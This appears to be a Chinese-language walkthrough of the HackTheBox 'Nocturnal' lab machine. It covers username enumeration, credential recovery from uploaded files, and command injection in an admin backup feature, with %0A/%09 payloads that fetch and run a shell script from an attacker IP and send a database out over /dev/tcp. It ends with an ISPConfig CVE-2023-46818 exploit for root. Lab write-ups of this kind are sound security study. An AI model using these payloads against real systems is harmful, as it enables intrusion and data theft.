## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Nocturnal  
❯ nmap Nocturnal.htb -sV -A      

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Welcome to Nocturnal
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

## User

任意注册一个账户，然后登录，可以上传一些文件



查看到下载链接是这样的格式

```
http://nocturnal.htb/view.php?username=aaa&file=2023.xlsx
```

如果是通过**URL**里来获取到用户名的话，这里可以进行一下用户的枚举

```
[root@kali] /home/kali/Nocturnal  
❯ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=2023.xlsx' -w ../Desktop/fuzzDicts/userNameDict/user.txt -H 'Cookie: PHPSESSID=k381a2of6lftuk6gnab5f5sapa'  -fs 2985

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=2023.xlsx
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/userNameDict/user.txt
 :: Header           : Cookie: PHPSESSID=k381a2of6lftuk6gnab5f5sapa
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2985
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 72ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 70ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 69ms]
:: Progress: [8886/8886] :: Job [1/1] :: 335 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

可以看到有这几个用户是有特殊回显的，其中查看**amanda**的文件，发现有一个**privacy.odt**



```
[root@kali] /home/kali/Nocturnal  
❯ file privacy.odt                                                                                                                            ⏎
privacy.odt: Zip archive, with extra data prepended
```

发现是一个压缩包类型的文件，将其解压后查找一下密码



可以登录到后台，进到**admin**界面



滑到最下面，用密码创建备份可以看到，有一个数据库文件



下载下来进行解压，同样使用**amanda**的密码，获取到密码**hash**



其中**tobias**的密码是可以破解成功的





### Updated

在更新之后，数据库文件就不存在了，因此尝试审计代码

在**admin.php**中，能发现**password**字段是直接拼接到**command**里面的

```
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];

        $process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }

        sleep(2);

        $logContents = file_get_contents($logFile);
        if (strpos($logContents, 'zip error') === false) {
            echo "<div class='backup-success'>";
            echo "<p>Backup created successfully.</p>";
            echo "<a href='"a . htmlspecialchars($backupFile) . "' class='download-button' download>Download Backup</a>";
            echo "<h3>Output:</h3><pre>" . htmlspecialchars($logContents) . "</pre>";
            echo "</div>";
        } else {
            echo "<div class='error-message'>Error creating the backup.</div>";
        }

        unlink($logFile);
    }
}
?>
```



使用**%0a**换行，用**%09**代替空格，即可命令执行

```
password=%0Abash%09-c%09"id"%0A&backup=
```

下载**shell**文件

```
password=%0Abash%09-c%09"wget%0910.xx.xx.xx/shell"%0A&backup=

password=%0Abash%09-c%09"bash%09shell"%0A&backup=
```



```
www-data@nocturnal:~/nocturnal_database$ cat nocturnal_database.db > /dev/tcp/10.xx.xx.xx/8888

[root@kali] /home/kali/Nocturnal  
❯ nc -lvnp 8888 > nocturnal_database.db
```



同样拿到数据库文件

## Root

发现有内网**8080**端口



```
[root@kali] /home/kali/Nocturnal  
❯ ssh tobias@nocturnal.htb -L 9090:127.0.0.1:8080   
```

发现是一个**ispconfig**服务





猜测版本可能是**3.2**



尝试搜索一下，似乎存在这个**CVE-2023-46818**的漏洞



- [💀 Exploit for Code Injection in Ispconfig CVE-2023-46818](https://sploitus.com/exploit?id=C8C641AC-8810-5B1B-878E-D064A44248BB)

- [bipbopbup/CVE-2023-46818-python-exploit: CVE-2023-46818 IPSConfig Python exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

同样尝试密码复用的问题，可以看到成功得到**Root**



## Summary

**User**：**URL**传参导致的用户名枚举问题，查到**amanda**的密码。登录到后台进行备份拿到数据库文件，解密得到**tobias**的用户密码。

**Root**：内网端口**8080**运行着**ispconfig**服务，根据版本查找**exp**，提权到**root**。
